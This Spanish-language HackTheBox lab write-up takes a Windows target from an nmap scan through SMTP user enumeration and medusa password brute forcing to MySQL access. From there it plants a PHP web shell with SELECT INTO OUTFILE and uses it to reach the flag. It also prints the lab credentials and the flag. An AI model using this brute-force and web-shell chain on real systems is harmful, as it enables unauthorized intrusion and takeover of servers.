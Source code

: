 # Práctica Final: Fácil 🐧

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

![Ports.PNG](./assets/Facil/01-nmap.PNG)

---

Como no tenemos credenciales de ningún servicio, haremos **fuerza bruta** con las listas que nos dan en `HackTheBox`

![Listas.PNG](./assets/Facil/02-Listas.PNG)

---

❗ Es importante hacer **virtual hosting** con el dominio web que nos dan en HackTheBox.

---

Primero, buscamos **nombres de usuarios válidos** en el servicio `SMTP`

```bash
smtp-user-enum -M RCPT -U users.txt  -D inlanefreight.htb -t [IP]
```


<p align="center">
    <img src="./assets/Facil/03-User.PNG">
</p>

---

Ahora usaremos **medusa** para **hacer fuerza bruta** a la constraseña del usuario encontrado previamente.

```bash
medusa -u fiona@inlanefreight.htb -P rockyou.txt -h [IP] -M smtp
```

<p align="center">
    <img src="./assets/Facil/04-Password.PNG">
</p>

‼ **CREDENCIALES** `fiona:987654321`

---

* Las **crendenciales obtenidas previamente** nos sirven para loguearnos en el servicio `FTP` | `MYSQL` | `HTTPS`

---

1. Nos autenticamos en el **servicio HTTPS**

<p align="center">
    <img src="./assets/Facil/05-HTTPS.PNG">
</p>

* Contenido de archivo **WebServersInfo.txt**

<p align="center">
    <img src="./assets/Facil/06-Doc.PNG">
</p>

  + **(1)** Comando usado para testear el **servicio FTP** a través de **HTTPS**
  + **(2)** Ubicación de los archivos del servidor.
  + **(3)** Vemos que en el **servicio web** en el **puerto 80** podemos acceder a los archivos ubicados en `C:\xampp\htdocs\`


---
❕ No encontramos información relevante en el servicio `SMTP` y tampoco en el servicio `FTP`

---


2. Accedemos a la base de datos `MySQL`

```sql
mysql -u fiona -h [IP] -p
```

* Averiguamos si tenemos permisos para subir archivos en el servidor
  
```sql
select variable_name, variable_value from information_schema.global_variables WHERE variable_name="secure_file_priv";
```


<p align="center">
    <img src="./assets/Facil/07-MySQL.PNG">
</p>


* Si "secure_file_priv" es nulo, significa que no hay ninguna ubicación restringida y se pueden cargar archivos desde cualquier lugar en el sistema de archivos accesible por el servidor de la base de datos.


3. Como ya tenemos la dirección de donde se **alojan los archivos del servicio web** (`C:\xampp\htdocs\`), podemos aprovechar esto para subir una `shell` en php.

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:\\xampp\\htdocs\\cmd.php";
```

4. Desde el `servicio web` expuesto en el **puerto 80**, accedemos al archivo **cmd.php**

* **URL:** `http://[IP]/cmd.php`

Ya podemos ejecutar comandos, únicamente debemos recordar que estamos en `Windows`

5. Buscamos la flag 🏴

* **URL:** `http://[IP]/cmd.php?cmd=dir%20\Users\Administrator\Desktop`

<p align="center">
    <img src="./assets/Facil/08-flag.PNG">
</p>

**CONTENIDO:** `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}`